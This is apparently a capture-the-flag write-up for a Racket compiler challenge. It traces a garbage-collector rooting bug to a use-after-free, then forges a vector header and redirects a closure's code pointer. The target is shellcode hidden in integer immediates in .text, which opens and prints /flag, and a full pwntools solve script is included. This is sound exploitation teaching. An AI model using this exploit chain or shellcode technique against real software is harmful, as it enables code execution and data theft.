```lmapllvm_alloc``` is the allocation wrapper, it callsd ```gc_alloc``` and if that returns null it run one collection through ```invoke_gc``` (which calls ```gc_collect``` with the root stack top in ```rdi```) and then tries again, giving up to ```oom``` only if the second attempt also fails. ```lmapllvm_panic``` and ```oom``` are both exit syscalls with an error code which is why a type or bounds violation terminates the process cleanly rather than doing anything unsafe

## value and object encoding

datatype_encoding.rkt uses three tag bits where integers are stored shifted left by three (low three bits 000, tag 0), pointers carry tag 1 in the low bit and heap objects place a type tag in word 0 where a vector is 2, a pair is 3, a closure is 4

```text
vector    word0 = 2   word1 = length     word2 = elements
closure   word0 = 4   word1 = code_label word2 = arity   word3 = envsize   word4 = env
```

```make-vec``` allocates length plus two words, writes the tag and length and then zero initializies. ```vec-set!``` validates in five steps before writing, the first one being whether the target is a pointer, second that the index is an integer, third that word0 is a vector tag, fourth that the index is not negative, and last that the index is below the stored length

```racket
[vec-set! . (3 ,(lambda (xs)
  `(if (= (bit-and ,(first xs) ,TAG-MASK) ,PTR-TAG)
       (if (= (bit-and ,(second xs) ,TAG-MASK) ,INTEGER-TAG)
           (if (= (mem-read (bit-and ,(first xs) ,UNTAG-MASK) 0) ,VECTOR-OBJ-TAG)
               (if (>= (bit-rshift ,(second xs) ,TAG-BITS) 0)
                   (if (< (bit-rshift ,(second xs) ,TAG-BITS)
                          (mem-read (bit-and ,(first xs) ,UNTAG-MASK) 1))
                       (begin (mem-write (bit-and ,(first xs) ,UNTAG-MASK)
                                         (+ ,VECTOR-HEADER-OBJ-SIZE (bit-rshift ,(second xs) ,TAG-BITS))
                                         ,(third xs))
                              ,TAGGED-UNIT)
                       (call ,PANIC-RUNTIME-SYMBOL ,ERROR-OOB-ACCESS))
                   <>)))))]
```

the thing here is that this veryd guard reads word0 and word1 of whatever the pointer points at and trusts those bytes as if it were a real vector, which we hinge on

## the bug

a value passed as an inline call arg is not a gc root. if a collection fires while that value is live, the collector cannot see it and sweeps it. the function that was going to return it returns a pointer into freed memory, and because ```mark_object``` ignores freed blocks, rooting that returned pointer afterward does nothing and the next allocation reuses the memory underneath it

### building the dangling pointer

we can wrap the trigger in two helpers

```scheme
[ret2 (lambda (p q) p)]
[stage (lambda ()
  (let ([a (make-vec 100)])
    (call ret2 (make-vec 126)
               (let ([c (make-vec 1)])
                 (begin (make-vec 254) (make-vec 318))))))]
```


stage allocates a (which is let bound and rooted), then tail calls ret2. the first argument is make-vec 126 which is an inline argument, so it is not rooted, and it is exactly where the value ret2 returns. the second argument allocates c (rooted) , then make-vec 254 (dead, unrooted), then make-vec 318 (the value, unrooted)
 
the sizing comes from the outer program, it first evaluates fill = make-vec 523639, which is (523639 plus 2) times 8 bytes, about 4.19 MB, against a 4 MB heap which consumes nearly the whole heap and leaves a few kilobytes free, hence the small allocations inside stage exhaust the remainder and force a gc_collect exactly at make-vec 318. at that collect the roots are fill, a, and c, make-vec 126 is unrooted and gets swept. ret2 returns the freed 126 pointer and it is bound to stale



stale is rooted after it comes back, but its block is already free and ```mark_object``` skips it, the next allocation, ```r = make-vec 198```, forces a second collect that sweeps a, c and 318, coalesces the whole region behind fill into a single free block, then places r at the start of it. now, r physically overlaps the bytes stale points to!

### forging a header and writing the code label

stale still carries its old header claiming a vector length of 126 so it already passes ```vec-set!``` type and bounds checks, we can also write through r onto the exact words stale reads as its header

```scheme
(vec-set! r 103 unit)
(vec-set! r 104 1000)
```

unit encodes as the value 2 which equals the vector tag, so r index 103 puts a valid vector tag at stale word 0. 1000 tags to 8000 so r index 104 puts an enormous length at a stale word 1, so now fake (bound to stale) is a vector of length 8000 and a single in bounds index reaches far outside r

```scheme
(vec-set! fake 97 525880)
```

### the shellcode and the tagged code pointer

the value written is 525880, and integer tagging multiplies by eight, so the stored code label becomes 525880 times 8 = 0x4031c0 which is an address inside of ```.text``` and it is also where the shellcode lives

the top level begin starts with eighteen integer literals, ```imperative_transform.rkt``` spillss each one into a temporary, and ```emit_instructions.rkt``` emits that as ```mov r11, imm64``` (the bytes ```49 bb``` followed by the 8 byte immediate) followed by a store. the immediate bytes sit in the ```.text``` which is executable for us. jump into an immediate and it runs as code. the tag scheme forces the low byte of every literal to 00 and each fragments ends in ```eb 0a```, a jmp of plus ```0x0a``` which steps over the store instruction and the next opcode and the next forced zero byte. the shellcode fragments decode to open, read, write, exit chain 

```text
xor eax, eax / push rax        
push 0x67616c66                
mov byte [rsp-1], 0x2f         
lea rdi, [rsp-1]               
xor esi, esi / mov al, 2       
syscall / mov edi, eax        
mov rsi, rsp / xor edx, edx    
mov dl, 0x80 / xor eax, eax    
syscall / mov edx, eax        
mov edi, 1                     
mov eax, 1                     
syscall / xor edi, edi
mov eax, 0x3c                 
syscall
```

and the last statement calls target whose code label is now ```0x4031c0```

```scheme
(call target 0)
```

we can bp on the first shellcode instruction to confirm the dispatch reads the corrupted label and tail jumps (jmp rax with rax = 0x4031c0)

### solve 

```python
from pwn import *
 
PAYLOAD = b'(letrec ([ret2 (lambda (p q) p)] [stage (lambda () (let ([a (make-vec 100)]) (call ret2 (make-vec 126) (let ([c (make-vec 1)]) (begin (make-vec 254) (make-vec 318))))))]) (begin 1 1 1 1 98360188676343328 98354528504302848 98346916597242048 98375386509977856 98360112642442784 98360218322248160 98369208958658816 98360214380615232 98360215637893600 98340319988299744 98340319988299520 98360248202469856 98340319988782848 -1003719898129456672 (let ([fill (make-vec 523639)] [stale (call stage)] [r (make-vec 198)] [target (lambda (x) x)]) (let ([fake stale]) (begin (vec-set! r 103 unit) (vec-set! r 104 1000) (vec-set! fake 97 525880) (call target 0))))))'
 
def main():
    host = args.HOST or '127.0.0.1'
    port = int(args.PORT or 1337)
    io = remote(host, port)
    io.recvuntil(b'>>> ')
    io.sendline(PAYLOAD)
    print(io.recvall(timeout=10).decode(errors='replace'), end='')
 
if __name__ == '__main__':
    main()
```

```bash
racket main.rkt prog.src prog.asm
nasm -f elf64 -o prog.o prog.asm
ld -o prog prog.o gc.o
strace -e openat,read,write ./prog
```

which outputs

```text
open('/flag', O_RDONLY)          = 3
read(3, 'bbb{fake_flag}\n', 128)  = 15
write(1, 'bbb{fake_flag}\n', 15)
exit(0)
```
